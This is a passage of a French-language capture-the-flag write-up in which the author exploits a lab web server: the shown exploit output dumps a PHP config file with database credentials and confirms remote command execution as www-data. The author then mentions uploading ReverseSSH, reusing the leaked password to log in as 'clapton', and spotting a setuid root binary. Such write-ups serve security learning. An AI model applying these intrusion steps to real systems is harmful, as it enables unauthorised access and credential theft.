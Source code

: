 ```python
        PHP Version   5.6.40-0+deb8u12 
        allow_url_fopen  On  On 
        allow_url_include  Off  Off 
        disable_functions  pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,p
cntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,  pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_w
ifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_ex
ec,pcntl_getpriority,pcntl_setpriority, 
        open_basedir   no value    no value 
        System V Message based IPC   Wez Furlong 
        System V Semaphores   Tom May 
        System V Shared Memory   Christian Cartus 

[*] Fetching include/base.inc.php 
<?php 
                        // DATABASE CONNECTION INFORMATION 
                        define('DATABASE_HOST', 'localhost');           // Database host 
                        define('DATABASE_NAME', 'microblog');           // Name of the database to be used 
                        define('DATABASE_USERNAME', 'clapton'); // User name for access to database 
                        define('DATABASE_PASSWORD', 'yaraklitepe');     // Password for access to database 
                        define('DB_ENCRYPT_KEY', 'p52plaiqb8');         // Database encryption key 
                        define('DB_PREFIX', 'mb101_');              // Unique prefix of all table names in the database 
                        ?> 

[*] Testing remote execution 
[+] Remote exec is working with system() :) 
Submit your commands, type exit to quit 
> id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

J'uploade et exécute ReverseSSH sur la machine... Ça ne fonctionne pas, le système est 32 bits. Récupération de la version adéquate et c'est reparti.  

Je remarque un utilisateur *clapton* sur le système. Son mot de passe de session est le même que celui dumpé par l'exploit, je m'y connecte.  

Try again and again and again...
--------------------------------

L’utilisateur a trois fichiers dans son dossier personnel dont un binaire setuid root :  

```plain
-rwsr-xr-x 1 root    root    5150 Sep 22  2015 input 
-rwxr-xr-x 1 root    root     201 May  9  2021 note.txt 
-rw-r--r-- 1 clapton clapton   32 May  9  2021 user.txt
```
